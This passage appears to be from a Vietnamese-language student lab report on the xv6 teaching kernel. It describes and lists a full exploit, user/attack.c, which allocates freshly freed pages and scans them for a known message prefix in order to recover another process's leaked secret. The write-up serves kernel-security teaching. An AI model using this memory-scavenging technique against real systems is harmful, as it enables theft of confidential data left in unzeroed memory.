 \documentclass[11pt,a4paper]{article}
\makeatletter
\renewcommand\subsection{\@startsection{subsection}{2}{\z@}%
                                     {-1.3ex\@plus -0.3ex \@minus -.2ex}%
                                     {0.6ex \@plus .2ex}%
                                     {\normalfont\normalsize\bfseries}}
\makeatother
\begin{document}
\begin{itemize}
    \item Vì giá trị \texttt{argv[1][0]} phụ thuộc vào ký tự đầu tiên của chuỗi bí mật (được sinh ngẫu nhiên trong mỗi lần kiểm thử), \textbf{offset chính xác trong trang là biến thiên và không thể cố định trước}.
    \item Tuy nhiên, chuỗi thông điệp luôn bắt đầu bằng một chữ ký cố định đã biết trước: \texttt{"Here it is: "} (\texttt{MSG\_LEN = 12}).
    \item Do đó, thuật toán trong \texttt{user/attack.c} giải quyết bài toán này một cách tổng quát bằng kỹ thuật \textbf{quét mẫu chữ ký (Signature Pattern Scanning)}:
    (1)~Cấp phát vùng nhớ $32 \times 4096$ byte bằng \texttt{sbrk()} để bao phủ toàn bộ 9 trang vật lý vừa bị giải phóng.
    (2)~Duyệt tuần tự qua từng byte trong bộ nhớ tìm chuỗi con khớp chính xác với \texttt{"Here it is: "}.
    (3)~Khi tìm thấy tại vị trí $i$, chuỗi bí mật nằm ngay tại offset $i + 12$.
    (4)~Đọc liên tục các ký tự hợp lệ (chữ cái và chữ số) cho đến byte kết thúc \texttt{'\textbackslash 0'}, ghi ra luồng đầu ra chuẩn \texttt{stdout} (\texttt{fd = 1}) kèm ký tự xuống dòng \texttt{'\textbackslash n'} và kết thúc chương trình thành công.
\end{itemize}

\clearpage

\subsection{Mã nguồn cài đặt chương trình khai thác (\texttt{user/attack.c})}
\begin{lstlisting}[style=cstyle]
#include "kernel/types.h"
#include "kernel/fcntl.h"
#include "user/user.h"
#include "kernel/riscv.h"

#define PGSIZE 4096
#define DATASIZE (32 * PGSIZE)
#define MSG "Here it is: "
#define MSG_LEN (sizeof(MSG) - 1)

static int is_alnum(char c) {
  return (c >= 'a' && c <= 'z') || (c >= 'A' && c <= 'Z') || (c >= '0' && c <= '9');
}

int main(int argc, char *argv[]) {
  char *mem = sbrk(DATASIZE);
  if (mem == ((char *)-1))
    exit(1);

  for (int i = 0; i + MSG_LEN < DATASIZE; i++) {
    int match = 1;
    for (int j = 0; j < MSG_LEN; j++) {
      if (mem[i + j] != MSG[j]) {
        match = 0;
        break;
      }
    }
    if (!match)
      continue;

    char *secret = mem + i + MSG_LEN;
    int len = 0;
    while (i + MSG_LEN + len < DATASIZE && secret[len] != '\0' && is_alnum(secret[len])) {
      len++;
    }

    if (len > 0 && i + MSG_LEN + len < DATASIZE && secret[len] == '\0') {
      write(1, secret, len);
      write(1, "\n", 1);
      exit(0);
    }
  }
  exit(0);
}
\end{lstlisting}
\end{document}
